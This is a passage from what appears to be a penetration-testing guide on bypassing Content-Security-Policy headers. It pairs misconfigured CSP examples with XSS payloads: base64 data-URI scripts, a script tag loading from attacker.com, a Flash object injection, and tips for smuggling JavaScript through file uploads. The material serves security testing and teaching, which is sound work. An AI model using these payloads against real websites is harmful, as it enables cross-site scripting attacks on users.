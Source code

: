 Working payload: `<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`

### Wildcard

```text
Content-Security-Policy: script-src 'self' https://google.com https: data *; 
child-src 'none'; 
report-uri /Report-parsing-url;
```

Working payload: `"/>'><script src=https://attacker.com/evil.js></script>`

### Lack of object-src and default-src

```text
Content-Security-Policy: script-src 'self' 
report-uri /Report-parsing-url;
```

Working payloads:

* `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> </object>`
* `">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'><param name="AllowScriptAccess" value="always"></object>`

### File Upload + 'self'

```text
Content-Security-Policy: script-src 'self'; 
object-src 'none' ; 
report-uri /Report-parsing-url;
```

If you can upload a JS file you can bypass this CSP:

Working payload: `"/>'><script src="/user_upload/mypic.png.js"></script>`

However, it's highly probable that the server is **validating the uploaded file** and will only allow you to **upload determined type of files**.

Moreover, even if you could upload a **JS code inside** a file using a extension accepted by the server \(like: _script.png_\) this won't be enough because some servers like apache server **selects MIME type of the file based on the extension** and browsers like Chrome will **reject to execute Javascript** code inside something that should be an image. "Hopefully", there are mistakes. For example, from a CTF I learnt that **Apache doesn't know** the _**.wave**_ extension, therefore it doesn't serve it with a **MIME type like audio/\***.

From here, if you find a XSS and a file upload, and you manage to find a **misinterpreted extension**, you could try to upload a file with that extension and the Content of the script. Or, if the server is checking the correct format of the uploaded file, create a polyglot \([some polyglot examples here](https://github.com/Polydet/polyglot-database)\).

### Allowing third party endpoints

#### Arbitrary JS files loaded from whitelisted endpoints
